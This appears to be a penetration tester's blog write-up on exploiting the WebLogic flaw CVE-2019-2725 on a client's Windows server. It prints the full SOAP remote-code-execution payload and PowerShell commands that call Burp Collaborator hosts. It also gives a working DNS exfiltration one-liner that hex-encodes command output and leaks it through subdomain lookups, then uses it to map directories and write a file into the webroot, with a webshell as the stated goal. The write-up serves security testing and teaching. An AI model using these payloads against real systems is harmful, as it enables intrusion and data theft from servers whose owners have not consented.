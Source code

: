 ## Description

I was doing a security testing against a web server running `WebLogic`. A potential RCE due to CVE-2019-2725 was reported and I was verifying it.
I was following the PoC given [here](http://www.0xby.com/1589.html). 

I was getting the following page while accessing the application.

![image1](1.1.png){: .align-center}
image 1.1

There were RCE available payloads for windows and linux. The following payload was used to trigger the RCE for windows.

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>cmd</string>
</void>
<void index="1">
<string>/c</string>
</void>
<void index="2">
<string>powershell "code to execute"</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

Once the system receives the post request, it simply returns a `202` response and nothing else.

My first payloads consisted of callbacks to my burp collaborator using via TCP using `wget`, UDP using `nslookup` and ICMP using `ping`. But none of them were giving me any response. Next I tried writing to files so that I could get a webshell. But the path was difficult to ascertain. The PoC gave different paths and none of them where working for me. I came to the conclusion that the path is probably different from system to system. So it seems to be a dead end.

## DNS Requests

As I was trying out windows payloads using powershell and `wget`, I noticed that I was getting DNS hits on my burp collaborator. The hits came only once for each collaborator URL and the hit was coming from a name server that belonged to the organization I was testing. To confirm that this was indeed triggered by my payload I added a sleep before the payload to create a delay before the DNS query. 

The payload I was using was 

```powershell
powershell -exec bypass -c "sleep 60;wget 'kuiudtisadndwxklxi7g9c6rwi28qx.burpcollaborator.net'"
```

And I did get a hit exactly after 65 seconds, which confirms that the system is running on windows and we indeed have blind RCE.

![image1](1.2.png){: .align-center}
image 1.2

Looking at the above picture, we can see that something is trying to resolve our request, but the actual request is getting blocked. There was also one more thing I noticed. If I try the same url again, I would not get a DNS hit as the DNS request is probably getting cached.

## DNS Exfilteration

So we have the following

1. We have RCE on a system, but there is no way to read the output.
2. The application cannot initiate communication with any system outside. So all kinds of callbacks are out of question.
3. We get DNS hits for the URL we send to the system.

![image1](1.3.png){: .align-center}
image 1.3

Our application infra probably looks something like the above picture.

After some research, I came upon this awesome technique called DNS exfiltration. 

> Actually, this is not new technical, according to the Akamai, this technique is about 20 years old. In a simple definition, DNS Data exfiltration is way to exchange data between 2 computers without any directly connection, the data is exchanged through DNS protocol on intermediate DNS servers.

![image1](1.4.png){: .align-center}
image 1.4 

To exfiltarate data via DNS
1. Setup a domain and point the name server to one we control. This can be archived using burp collaborator or buying a domain and settings its name server to a server we control.
2. Append the data to exfilterate as a subdomain of a domain we have control over and send the request.
3. The data will be part of the DNS request we receive. 

First I will try it out using collaborator. We can append a string to the collaborator domain and make a request using `wget`

The payload will be 

```powershell
powershell -exec bypass -c "wget 'dnstest.9u4y5mpcus6j3r0wtquruty7yy4osd.burpcollaborator.net'"
```

![image1](1.5.png){: .align-center}
image 1.5

Awesome. We can see that our data was indeed appended as part of the DNS request. We can use this to append the output of our command outputs as part of the subdomain and we will be able to receive the output of the command. We can also read files using this technique. 

But we have two challenges

1. **There is a length limit for the URL. This means that we cannot append huge output. The limit was around 30 characters.**  
    The solution for this is to split the command into parts and send the parts one by one using one DNS request for each part.
2. **We cannot append special characters which means we have the encode the data before appending it.**  
    My first idea was to encode the commands as base64. But this failed miserably as I realized that the DNS requests only contains lower case characters. Hence our data will be lost. The alternative is to ascii encode the characters as hex and send them over and then decode it. 
    
## Exfilterating RCE Output

After some more research, I found an a very good [script](https://gallery.technet.microsoft.com/DNS-based-data-exfiltration-fc48e292) that can do both the splitting and encoding.

I tweaked it a bit to get the output of commands that are executed. The final payload look like this

```powershell
$(whoami) -split '(.{16})' | ? {$_} | % { Resolve-DnsName (([System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($_))).Replace('-','')+'.659h81eo8n6qb5y6w9swwg71rsxulj.burpcollaborator.net') -Type A; Start-Sleep -Seconds 1 }
```

Lets break it down.

1. First it executes the command `whoami` and splits the output into lengths of 16. I tried increasing the length, but the commands where not getting split properly when I did that.
2. Iterate through each part and encode it to hex.
3. Try to Resolve the URL of collaborator with the hex data appended before it. 
4. Sleeps for 1 second and continue with the next part.

Now time to try out the payload.

```powershell
powershell -exec -c "$(whoami) -split '(.{16})' | ? {$_} | % { Resolve-DnsName (([System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($_))).Replace('-','')+'.gk4q3p8o09d9mtahnexcz8wnmes8gx.burpcollaborator.net') -Type A; Start-Sleep -Seconds 1 }"
```

![image1](1.6.png){: .align-center}
image 1.6

And we get two hits with some hex data.

![image1](1.7.png){: .align-center}
image 1.7

Decoding it with burp decode shows us the output. And surprisingly the application is running as  `nt authority\system` which is a dangerous thing to do.

## RCE to webshell

Using the output of our commands, we can understand the directory structure better to write a webshell.

```powershell
powershell -exec -c "$(dir) -split '(.{16})' | ? {$_} | % { Resolve-DnsName (([System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($_))).Replace('-','')+'.jtg84womt25t21z6s0t1t3xhx83zro.burpcollaborator.net') -Type A; Start-Sleep -Seconds 1 }"
```

Start with `dir` and look inside each directory. Each output will be split into multiple dns requests. We have to assemble them back together to get the output.

Finally I found that the actual path was `servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.bea-wls9-async-response_12.1.3\2ig01a\war\`

Our final payload will be

```powershell
powershell -exec bypass -c "echo 'file created as part of security testing' > servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.bea-wls9-async-response_12.1.3\2ig01a\war\sectest.txt"
```

And we can visit the page to view our payload.

![image1](1.8.png){: .align-center}
image 1.8 

And we can see our text. Unfortunately I do not have permission to  upload a shell. So this will be it. 

## Notes

1. As I did more research, I found a better way to send the data without using multiple requests. Data can be appended as multiple subdomains. eg `data1.data2.data3.attacker.com`. I couldn't fully get this to work
2. There are also techniques available to send data through fields other that A records.
3. Using a custom domain and a nameserver, it is possible to automate the decoding by writing a script that will listen on port 53.
4. There are tool such as [DnsSteal](https://github.com/m57/dnsteal), [requestbin.net](http://requestbin.net/) that can make the process easier.

## Further Reading
1. https://blog.fosec.vn/dns-data-exfiltration-what-is-this-and-how-to-use-2f6c69998822
2. https://blogs.infoblox.com/community/dns-data-exfiltration-how-it-works/
3. https://pentest.blog/data-exfiltration-tunneling-attacks-against-corporate-network/
